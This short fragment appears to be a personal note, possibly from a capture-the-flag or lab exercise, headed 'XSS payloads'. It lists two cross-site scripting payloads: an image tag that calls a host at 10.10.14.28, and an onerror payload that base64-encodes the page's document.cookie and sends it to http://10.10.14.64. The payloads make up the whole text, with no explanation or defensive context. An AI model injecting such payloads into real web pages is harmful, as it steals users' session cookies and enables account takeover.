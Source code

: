 # XSS payloads

```text
<img src=http://10.10.14.28/abc />
<img src=x onerror=this.src="http://10.10.14.64/?cookie="+btoa(document.cookie)/>
```



